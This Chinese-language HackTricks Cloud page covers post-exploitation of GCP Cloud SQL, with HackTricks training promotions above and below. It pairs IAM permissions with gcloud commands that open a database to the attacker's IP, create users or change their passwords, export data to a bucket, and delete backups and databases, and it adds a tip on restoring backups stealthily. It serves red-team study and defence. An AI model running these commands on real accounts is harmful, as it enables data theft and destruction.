 # GCP - Cloud SQL 后期利用

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Cloud SQL

有关 Cloud SQL 的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

要连接到数据库，您**只需访问数据库端口**并知道**用户名**和**密码**，没有任何 IAM 要求。因此，获取访问权限的一个简单方法是，假设数据库具有公共 IP 地址，更新允许的网络并**允许您自己的 IP 地址访问它**。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
也可以使用 **`--no-backup`** 来 **干扰数据库的备份**。

由于这些是要求，我不太确定 **`cloudsql.instances.connect`** 和 **`cloudsql.instances.login`** 的权限是什么。如果你知道，请发送一个 PR！

### `cloudsql.users.list`

获取数据库的 **所有用户列表**：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

此权限允许**在数据库中创建新用户**：
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

此权限允许**更新数据库中的用户**。例如，您可以更改其密码：

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

备份可能包含**旧的敏感信息**，因此检查它们是很有趣的。\
**在数据库中恢复备份**：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
为了以更隐蔽的方式进行操作，建议创建一个新的 SQL 实例，并在该实例中恢复数据，而不是在当前运行的数据库中。

### `cloudsql.backupRuns.delete`

此权限允许删除备份：
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**将数据库导出**到 Cloud Storage Bucket，以便您可以从那里访问它：
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**从 Cloud Storage Bucket 导入数据库**（覆盖）：
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

从数据库实例中删除一个数据库：
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
